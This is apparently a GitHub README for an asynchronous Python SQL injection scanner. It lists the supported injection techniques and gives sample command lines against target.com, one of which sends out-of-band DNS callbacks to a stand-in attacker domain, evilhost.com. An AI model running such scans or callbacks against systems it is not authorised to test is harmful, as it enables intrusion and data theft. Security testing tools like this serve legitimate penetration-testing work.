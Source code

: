 # NEXT_GEN_SQl_SCANNER

![Build](https://img.shields.io/badge/build-passing-brightgreen) ![Python](https://img.shields.io/badge/python-3.7%2B-blue) ![License](https://img.shields.io/badge/license-MIT-lightgrey)

> 🔍 **Advanced SQL Injection Detection Tool**  
> 🧠 Minimal False Positives. Maximum Detection. Ultra-Fast Async Engine.

---

### 🚀 Overview

**SQLMap-NextGen** is a high-performance, next-generation SQL injection scanner designed for modern web applications.  
Built on **asynchronous Python (aiohttp)** and loaded with **advanced heuristics**, it goes beyond the basics:

- ✅ Detects all major SQLi types (Error-Based, Boolean, Union, Time-Based, Stacked Queries, OOB)
- ✅ Ultra-fast multi-request engine with async I/O
- ✅ Advanced similarity + timing analysis
- ✅ Built-in DNS callback support for Out-of-Band detection
- ✅ Supports GET, POST, and JSON body injection
- ✅ Plug-and-play custom payload support via JSON

---

### ⚔️ Key Features

| Feature                     | Description                                                      |
|----------------------------|------------------------------------------------------------------|
| 🔄 Async Scanner Engine     | Fast, concurrent scanning powered by `aiohttp` and `asyncio`     |
| 🧪 Smart Payload Generator | Auto-tunes payloads for MySQL, PostgreSQL, MSSQL, Oracle, SQLite |
| 🔐 DNS OOB Injection       | Built-in DNS callback support for stealthy blind SQLi detection  |
| 📄 HTML/JSON/XML Reports   | Generates interactive HTML, JSON or XML vulnerability reports    |
| 🧠 Adaptive Analysis       | Combines time diff, content diff & error pattern recognition     |
| 🧩 Modular Payloads        | Load your own JSON payloads, mix techniques & customize easily   |

---


python3 sqlmap-next-gen.py -u "http://target.com/login" -X POST -d "user=admin&pass=123"

With POST data:

python3 sqlmap-next-gen.py -u "http://target.com/login" -X POST -d "user=admin&pass=123"

With Custom Headers and Proxy:

python3 sqlmap-next-gen.py -u "http://target.com" -H "Authorization: Bearer TOKEN" --proxy "http://127.0.0.1:8080"


With DNS Callback (OOB):

python3 sqlmap-next-gen.py -u "http://target.com/page.php?id=1" --callback-domain mydns.evilhost.com


Output
✅ Scan Summary
✅ JSON, HTML, XML export
✅ Evidence-rich logs
✅ Full payload trace per parameter

---
License
MIT © 2025 — Built by 554252452423
Inspired by the best, but designed to be faster, deeper, and smarter.

